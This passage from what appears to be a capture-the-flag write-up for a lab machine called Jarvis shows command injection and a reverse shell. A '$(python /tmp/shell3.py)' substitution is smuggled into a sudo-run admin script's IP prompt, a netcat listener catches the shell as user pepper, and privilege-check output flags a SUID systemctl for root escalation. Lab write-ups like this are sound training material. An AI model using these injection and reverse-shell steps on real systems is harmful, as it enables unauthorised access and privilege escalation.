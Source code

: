{% highlight shell %}
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(python /tmp/shell3.py)
$(python /tmp/shell3.py)
{% endhighlight %}

<p>Then on the receiving end:</p>

{% highlight shell %}
nc -lvp 4444
Listening on [0.0.0.0] (family 2, port 4444)
Connection from 10.10.10.143 56170 received!
$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
$ cd /home/pepper
$ ls
Web
user.txt
$ cat user.txt
2afa3**************************
{% endhighlight %}

<p>Victory. User credentials acquired.</p>

<h1>Root exploitation</h1>

<p>Now we needed to kick off a new privsec enumeration with the user pepper. No new sudo rules, however after running linprivcheck I noticed something interesting in the SUID/GUID section:</p>

{% highlight python %}
$ python linprivchecker.py
python linprivchecker.py
========================================================
LINUX PRIVILEGE ESCALATION CHECKER
========================================================

[*] GETTING BASIC SYSTEM INFO...

[+] Kernel
    Linux version 4.9.0-8-amd64 (debian-kernel@lists.debian.org) 
    (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.144-3.1 (2019-02-19)

[+] Hostname
    jarvis
...
[+] SUID/SGID Files and Directories
    -rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
    -rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
    -rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
    -rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
    -rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
    -rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
....
{% endhighlight %}
